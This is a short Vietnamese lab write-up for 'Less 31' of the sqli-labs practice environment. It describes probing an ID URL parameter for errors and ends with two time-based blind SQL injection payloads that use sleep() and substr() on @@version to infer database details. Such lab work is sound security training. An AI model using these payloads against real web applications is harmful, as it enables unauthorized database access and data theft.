









# Less 31

Đề bài cho phép truyền ID vào URL



Thử truyền giá trị



Truyền vào một số giá trị có thể gây ra lỗi



Ta thấy ở đây có lỗi hiển thị lên màn hình

Tôi tiếp tục thử



Ta có thể show các thông tin trong DB bằng cách cho hiển thị lỗi lên màn hình



Tôi thấy ở đây có cả trang login



Tôi thử truyền ID vào đây



Khi tôi tìm cách để xem có thể injection được không thì thấy nó chuyển sang trang khác



Tôi tiếp tục thử

```
http://192.168.84.233/sqli-labs/Less-31/?id=1") and sleep(5) --+
```


Ta thấy ở đây dù sang màn khác ta thấy nó vẫn lấy thông tin từ URL truyền vào câu query. Như vậy ta có thể khai thác các thông tin sử dụng time based

```
http://192.168.84.233/sqli-labs/Less-31/?id=1") and if(substr((select @@version),1,1)='5',sleep(10),false) --+
```

